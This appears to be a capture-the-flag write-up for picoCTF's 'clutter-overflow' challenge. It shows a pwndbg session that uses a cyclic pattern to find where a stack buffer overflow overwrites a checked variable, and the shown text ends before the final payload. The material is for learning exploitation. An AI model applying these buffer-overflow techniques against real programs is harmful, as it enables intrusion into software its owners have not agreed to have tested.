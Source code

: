 # clutter-overflow
Description

Clutter, clutter everywhere and not a byte to use.

nc mars.picoctf.net 31890

---

<img width="745" alt="Screenshot 2024-04-09 at 1 48 16 AM" src="https://github.com/Lynk4/PicoCTF/assets/44930131/04bd08ba-5111-4d6f-897e-a7e9b646e58d">

---

after running the prgram we need to set ***code == 0xdeadbeef***

So first lets find the offset of the binary file I'm gonna use gdb

```bash
pwndbg> cyclic 300
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
pwndbg> run
Starting program: /home/lynk/picoCTF/clutter-overflow/chall 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""  
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaazaaaaaabbaaaaaabcaaaaaabdaaaaaabeaaaaaabfaaaaaabgaaaaaabhaaaaaabiaaaaaabjaaaaaabkaaaaaablaaaaaabmaaa
code == 0x6261616161616169
code != 0xdeadbeef :(

Program received signal SIGSEGV, Segmentation fault.
0x00000000004007c0 in main ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────────────────────────────────────
 RAX  0x0
*RBX  0x7fffffffe458 —▸ 0x7fffffffe6be ◂— '/home/lynk/picoCTF/clutter-overflow/chall'
 RCX  0x0
 RDX  0x0
*RDI  0x7fffffffe050 —▸ 0x7fffffffe080 ◂— 'code != 0xdeadbeef :(\n6169\n'
```